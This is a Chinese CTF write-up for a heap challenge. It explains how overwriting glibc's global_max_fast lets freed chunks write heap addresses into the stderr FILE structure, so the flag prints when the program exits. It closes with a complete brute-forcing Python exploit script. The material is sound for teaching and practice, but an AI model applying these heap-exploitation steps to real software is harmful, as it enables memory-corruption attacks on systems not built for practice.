
然后这道题没有show函数，而且没有puts等io输出函数，程序的所有输出都是自己用write函数来封装的，因此我们无法在这道题打IO leak泄露libc地址。
发现这道题其实已经将flag读到了一个堆块里(如下)

另外值得一提的就是在add函数里申请堆块的时候，最大可以申请到0x60000的堆块。

利用思路：
因为这道题已经将flag读到堆块里了，所以我们应该考虑如何输出堆块里的数据。在exit退出的时候，会刷新IO_list_all链表上的所有文件流，而在刷新的时候_IO_2_1_stderr结构体中的_IO_write_base字段与_IO_write_ptr字段之间如果存在数据的话，就会将其输出出来，如果我们能让这两个字段之间包含了存flag的那个堆块，在程序退出的时候就可以打印出来flag了。
篡改global_max_fast
这样的话我们需要向stderr结构体里写入两个堆地址，于是思路是我们将global_max_fast改为一个大数，导致fastbinsY数组的溢出，计算好目标地址和fastbin数组之间的偏移，申请一个对应size的堆块，就可以让堆地址写入到目标地址了。
这里简单叙述下讲堆地址写入目标地址的原理:
各类的bins的首地址都记录在了main_arena上，而fastbinY数组就是用来记录fastbin各个链的首地址。这个fastbinY数组定义的是10，所以理论上0xb0以内的堆块分到fastbbin中(但事实上fastbin正常情况最大的链为0x80)。而global_max_fast的作用表明了fastbin索引的阈值，如果我们能控制global_max_fast将其改为一个大数的话(假设改成0x1000)，再次释放掉一个0x500的堆块，那么该堆块就会进入fastbinY[0x4e]的位置(0x4e==(0x500-0x20)/0x10)，此时就会在fastbinY[0x4e]的地址留下一个堆地址。而fastbinY[0x4e]很明显是数组越界了，所以这个手法能在fastbinY数组的高地址去写入一个堆地址。
这道题我们所需要的也就是在stderr结构体里写入两个堆地址，具体的size计算方法为
fastbin_ptr = main_arena_addr + 8 index = (target_addr-fastbin_ptr)/8 size = index*0x10 + 0x20
剩下的部分就较为简单了，我们只需要将global_max_fast和_IO_2_1_stderr申请出来，将前者改大，后者用于edit改写stderr的base字段的末尾(因为此处写入的堆地址并不是存储flag的那个堆块，所以需要最后用edit来修改一下该地址的低字节)。
申请global_max_fast&&stderr
因为没有libc地址，所以我们需要借助unsorted bin的fd和bk指针main_arena+96再爆破下低字节从而做出来global_max_fast和stderr。此处操作的思路如下:
add chunk1 0x80
此时的bins情况为
我们利用uaf+edit篡改chunk2的fd指针的低字节，将本来的chunk3改成chunk4
而申请出来stderr的方法同上，我是将unsorted bin的fd改成了global_max_fast bk改为了stderr结构体(如下)

注意:由于这样申请出来会破坏unsorted bin，所以在破坏之前，我们需要把之后用到的所有堆块先全部申请出来
把上面两个地址申请出来后，最后释放掉size为0x14b0和0x14c0的两个堆块，即可将两个堆地址写入stderr结构体中(情况如下)
因为之前我们将stderr结构体申请出来了，此时自然可以编辑它，将base字段的末尾改到装有flag的堆块低地址处，最后执行exit函数即可获取flag(不过最终脚本需要爆破，概率为1/256)
EXP:
from tools import *context.arch = "amd64" def add (idx,size ): p.sendlineafter("Your choice: " , "1" ) p.sendlineafter("Index: " , str (idx)) p.sendlineafter("Size: " , str (size)) def edit (idx, content ): p.sendlineafter("Your choice: " , "2" ) p.sendlineafter("Index: " , str (idx)) p.sendafter("Content: " , content) def delete (idx ): p.sendlineafter("Your choice: " , "3" ) p.sendlineafter("Index: " , str (idx)) def pwn (): add(9 ,0xb0 ) add(0 ,0x70 ) add(1 ,0x410 ) add(2 ,0x70 ) add(3 ,0x70 ) add(7 ,0xb0 ) add(10 ,0x410 ) add(15 ,0x14b0 ) add(14 ,0x14c0 ) add(8 ,0xb0 ) delete(3 ) delete(0 ) delete(2 ) delete(1 ) delete(9 ) delete(7 ) delete(8 ) delete(10 ) edit(2 ,'\xe0' ) edit(1 ,'\x40\xf9' ) edit(8 ,'\xc8' ) edit(10 ,'a' *8 +'\x80\xe6' ) add(4 ,0x70 ) add(5 ,0x70 ) add(6 ,0x70 ) edit(6 ,str (0x7fff )) add(11 ,0xb0 ) add(12 ,0xb0 ) add(13 ,0xb0 ) debug(p,'pie' ,0x23E3 ,0x23EF ,0x2297 ,0x23FB ) delete(14 ) delete(15 ) payload=p64(0xfbad1887 )+p64(0 )*3 +b'\x00\x90' edit(13 ,payload) p.sendlineafter("Your choice: " , "6" ) p.interactive() cnt=0 while 1 : try : p,e,libc=load("leak" ) pwn() except EOFError: p.close() print ('------------->' +str (cnt)) cnt=cnt+1
